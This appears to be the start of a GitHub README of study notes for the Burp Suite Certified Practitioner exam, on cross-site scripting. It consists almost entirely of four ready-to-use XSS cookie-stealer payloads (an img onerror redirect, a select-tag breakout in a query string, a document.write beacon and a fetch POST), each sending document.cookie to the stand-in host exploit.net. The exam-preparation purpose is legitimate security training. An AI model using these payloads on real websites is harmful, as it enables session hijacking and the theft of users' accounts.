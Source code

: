 
# Burp-Suite-Certified-Practitioner-Exam-Study
Burp Suite Certified Practitioner Exam Study Notes

## Cross Site Scripting

### Cookie Stealers

Blog post comment section
```html
<img src="1" onerror="window.location='http://exploit.net/cookie='+document.cookie">
```  

Product and Store lookup
```html
?productId=1&storeId="></select><img src=x onerror=this.src='http://exploit.net/?'+document.cookie;>
```  

Stored XSS Blog post
```JavaScript
<script>
document.write('<img src="http://exploit.net?cookieStealer='+document.cookie+'" />');
</script>
```  

Fetch API Cookie Stealer
```JavaScript
<script>
fetch('https://exploit.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

